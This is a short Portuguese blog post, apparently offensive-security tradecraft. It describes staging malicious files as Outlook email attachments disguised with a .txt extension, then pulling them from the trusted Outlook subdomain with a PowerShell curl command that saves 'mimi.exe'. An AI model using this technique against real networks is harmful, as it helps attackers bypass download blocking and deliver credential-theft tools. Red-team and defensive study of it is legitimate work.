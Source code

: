 ```yaml
---
layout: single
classes: wide
title:  "Utilizando o Outlook para armazenar arquivos maliciosos"
---
```

## Descrição
Conseguimos através do anexo de e-mail do Outlook armazenar arquivos maliciosos nos permitindo realizar o upload/download de arquivos maliciosos através de um “local confiável” por se tratar de um subdomínio do Outlook.

## Passos para reproduzir
Primeiramente devemos modificar o arquivo malicioso adicionando uma extensão de texto (.txt)
No Linux podemos incluir essa extensão de várias formas, uma delas é utilizar o comando **cp** para cria uma cópia do arquivo adicionando a extensão de texto, nesse caso ficaria algo como: **arquivo.exe.txt**

![bh-Look](../assets/img/2021-12-06/IMG01.png)

Após prepararmos o arquivo malicioso podemos enviar um e-mail anexando nosso arquivo modificado para qualquer destino (*nesse exemplo estamos encaminhando para um endereço de e-mail temporário*) pois o que nos interessa é o link direto do arquivo.

![bh-Look](../assets/img/2021-12-06/IMG03.png)

![bh-Look](../assets/img/2021-12-06/IMG02.png)

![bh-Look](../assets/img/2021-12-06/IMG04.png)

Depois de enviarmos vamos em **Itens Enviados** e baixar o arquivo em anexo para obter o link direto do arquivo, para isso vamos em **Downloads do Navegador > Botão Direito >  Copiar link.**

![bh-Look](../assets/img/2021-12-06/IMG07.png)

![bh-Look](../assets/img/2021-12-06/IMG08.png)

Com o "link direto" podemos realizar o download através do PowerShell do Windows utilizando o comando **Curl** e a opção **-o** de output para criar a saída do arquivo com a extensão original (*um executável*) então o comando seria: `curl "link_do_arquivo.com.br" -o mimi.exe`

![bh-Look](../assets/img/2021-12-06/IMG09.png)

## Prova de Conceito (PoC)

![bh-Look](../assets/img/2021-12-06/IMG10.png)


## Observações
* Não recomendamos realizar o upload de arquivos executáveis (.exe) pois o outlook detecta como arquivo malicioso e impede que o download seja realizado.
* Arquivos muito grandes também são bloqueados por conta da restrição de tamanho por parte do anexo.
* Um outro ponto interessante é que o arquivo após enviado tem um prazo de validade que vária entre 10 à 15 minutos

## Cenário de Ataque
Esse tipo de técnica é útil em ambientes internos (externos também) onde geralmente existem bloqueios em determinadas origens, e por se tratar de um “domínio confiável” podemos realizar o download de forma segura.
